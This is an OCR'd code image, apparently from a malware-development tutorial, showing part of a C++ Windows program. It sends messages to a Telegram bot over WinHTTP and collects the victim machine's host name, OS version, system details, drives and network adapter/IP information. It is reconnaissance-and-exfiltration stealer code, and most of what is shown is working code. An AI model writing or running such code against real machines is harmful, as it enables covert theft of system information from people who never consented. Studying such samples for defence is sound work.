 ```cpp
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/x-www-form-urlencoded\r\n", -1, requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}

// get systeminfo and send to chat via tgbot logic
int main(int argc, char* argv[]) {

  // test tgbot sending message
  char test[1024];
  const char* message = "meow-meow";
  snprintf(test, sizeof(test), "{\"text\":\"%s\"}", message);
  sendToTgBot(test);

  char systemInfo[4096];

  // Get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return false;
  }
```
